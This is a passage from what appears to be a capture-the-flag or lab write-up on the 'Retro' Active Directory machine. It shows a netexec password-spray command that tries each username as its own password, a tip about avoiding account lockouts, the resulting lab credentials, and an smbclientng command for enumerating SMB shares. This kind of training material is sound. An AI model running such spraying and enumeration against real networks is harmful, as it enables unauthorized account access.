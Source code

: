 I created a potential users.txt file containing all the possible usernames, and tried the password spray attack. 

```bash
nxc smb retro.vl -u users.txt -p users.txt --continue-on-success --no-bruteforce                                        
```

![](/assets/img/posts/retro/4.jpg)

>It's a good practice to include the `--no-bruteforce` flag. This ensures that only one password is tried across all users, helping to avoid account lockouts and making the activity more controlled and safe.
{: .prompt-tip }

## Initial Access

We found a valid credentials `trainee:trainee` let's enumerate the shares it has access to.

```bash
smbclientng -d "retro.vl" -u 'trainee' -p 'trainee' --host 10.10.99.43
```
